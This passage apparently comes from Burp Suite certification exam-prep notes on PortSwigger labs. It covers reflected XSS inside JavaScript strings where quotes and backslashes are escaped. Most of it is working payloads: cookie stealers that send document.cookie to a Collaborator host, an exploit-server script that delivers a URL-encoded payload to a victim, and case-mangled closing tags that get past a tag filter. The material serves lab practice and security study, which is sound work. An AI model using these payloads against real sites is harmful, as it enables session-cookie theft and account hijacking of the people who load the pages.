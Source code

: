 > Using a payload `test'payload` and observe that a single quote gets backslash-escaped, preventing breaking out of the string.

```JavaScript
</script><script>alert(1)</script>
```

> Changing the payload to a cookie stealer that deliver the session token to Burp Collaborator.

```html
</script><script>document.location="https://Collaborator.net/?cookie="+document.cookie</script>
```

> When placing this payload in `iframe`, the target application do not allow it to be embedded and give message: `refused to connect`.

[PortSwigger Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

> In BSCP exam host the below payload on exploit server inside `<script>` tags, and the search query below before it is URL encoded.

```
</ScRiPt ><img src=a onerror=document.location="https://COLLABORATOR.com/?biscuit="+document.cookie>
```

> Exploit Server hosting search term reflected vulnerability that is send to victim to obtain their session cookie.

```html
<script>
location = "https://TARGET.net/?search=%3C%2FScRiPt+%3E%3Cimg+src%3Da+onerror%3Ddocument.location%3D%22https%3A%2F%2FCOLLABORATOR.com%2F%3Fbiscuit%3D%22%2Bdocument.cookie%3E"
</script>
```

> The application gave error message `Tag is not allowed`, and this is bypassed using this `</ScRiPt >`.

#### Reflected String Extra Escape

> See in `source code` the variable named `searchTerms`, and when submitting payload `fuzzer'payload`, see the single quote is backslash escaped, and then send a `fuzzer\payload` payload and _**identify**_ that the backslash is not escaped.

```
\'-alert(1)//  

fuzzer\';console.log(12345);//  

fuzzer\';alert(`Testing The backtick a typographical mark used mainly in computing`);//
```

> Using a single **backslash**, single quote and **semicolon** we escape out of the JavaScript string variable, then using back ticks to enclose the `document.location` path, allow for the cookie stealer to bypass application protection.
